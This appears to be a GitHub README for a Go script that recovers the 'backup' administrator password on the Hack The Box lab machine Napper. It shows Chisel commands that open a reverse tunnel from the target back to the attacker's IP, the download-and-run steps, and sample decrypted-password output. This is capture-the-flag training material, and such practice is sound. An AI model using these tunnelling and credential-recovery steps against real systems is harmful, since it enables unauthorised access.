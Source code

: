 ## About

A GO Lang script that will get you the password for the Administrator user `backup` on [Napper](https://app.hackthebox.com/machines/Napper).<br>

## Requirements

Your machine has to be linked to Napper with a reverse port forwarding on port 9200. Here's a way to do it using Chisel.
  - Run this on your linux machine:
```console
user@kali:~$ chisel server -p 9000 --reverse
user@kali:~$
```
  - Run this on Napper:
```console
C:\Users\ruben\Desktop> chisel.exe client <YOUR_IP>:9000 R:9200:127.0.0.1:9200
C:\Users\ruben\Desktop> 
```
> **Change `<YOUR_IP>` with your `tun0` IP address.**<br>
> *You can also use an available port different than 9000 if you want.<br>
> `chisel.exe` is **NOT** installed by default on Napper. It is your job to get it on Napper before using this script.*

Obviously GO Lang has to be installed on your linux machine (where the script will be executed). If you don't have it installed yet, visit [this link](https://go.dev/doc/install).<br>

## Usage

Firstly you download the script. After that you give the script the execution permission. Finally you run the script.
```console
user@kali:~$ wget https://github.com/0tonoon/Napper_Script/blob/main/Pass_script
user@kali:~$ sudo chmod +x Pass_script
user@kali:~$ go run Pass_script
user@kali:~$ 
```
If all went well, it will produce an output similar to this:
```console
Key: 6b871be7d935fc2a7d2a974b798e6c9b
IV: 87f47937c807cf2c6c98e01a11684ea7
Encrypted Data: 3c09b34edb32df9cb252ae6f7c84e8b61ddaf9ee88508f79c104f3d7ee61317ed38eb8cfb2173e16
Decrypted Data: qFrbskeXMiWlmnyqtlrwkqqHmcztbBmXUdfAlgvn
```
<hr>

`Decrypted Data` is the password for the `backup` user. Now it's your turn to find a way to use it and finish your privesc.
